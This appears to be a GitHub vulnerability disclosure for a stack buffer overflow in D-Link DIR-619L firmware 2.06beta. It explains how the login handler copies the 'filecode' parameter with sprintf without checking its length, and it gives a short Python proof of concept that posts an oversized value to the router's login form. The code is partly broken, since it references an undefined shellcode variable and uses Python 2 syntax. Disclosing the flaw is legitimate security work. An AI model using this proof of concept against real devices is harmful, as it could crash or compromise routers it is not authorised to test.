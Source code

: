 # dir_619l-buffer-overflow

**Vender** ：D-Link

**Firmware version**:2.06beta

**Exploit Author**: ys110

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-619L

Vul detail
========

In the handler of router / goform / Login, the http request parameter “filecode” is obtained through the webgetvar function

![image](https://github.com/hhhhu8045759/dir_619l-buffer-overflow/blob/master/1.png)

When the router login webpage is set to log in with the verification code, the filecode parameter is assigned to the a1 register and transmitted to the getauthcode function

![image](https://github.com/hhhhu8045759/dir_619l-buffer-overflow/blob/master/2.png)

The filecode parameter in the getauthcode function is Copy it into the a2 register, the sprintf function copies it to the local stack, however, it does not check the length, and a very long input could lead to stack overflow and overwrite the return address:

![image](https://github.com/hhhhu8045759/dir_619l-buffer-overflow/blob/master/619_2.png)


poc
=======

```c
import requests
import sys
import struct
import string
import base64
def login(shellcode,user,password,ip):
	postData = {
	'login_name':'yuanshuo',
	'curTime':"12345",
	'FILECODE':"a"*300,
	'VER_CODE':'vercode',
	'VERIFICATION_CODE':'12345',
	'login_n':user,
	'login_pass':password,
	}
	response = requests.post('http://192.168.1.1/goform/formLogin',data=postData)
        
        #print 'http://' + ip + '/goform/formLogin'
        print response.json


if __name__ == "__main__":
	login(shellcode,'admin', base64.b64encode('shuoshuo110'),'192.168.1.1')
```
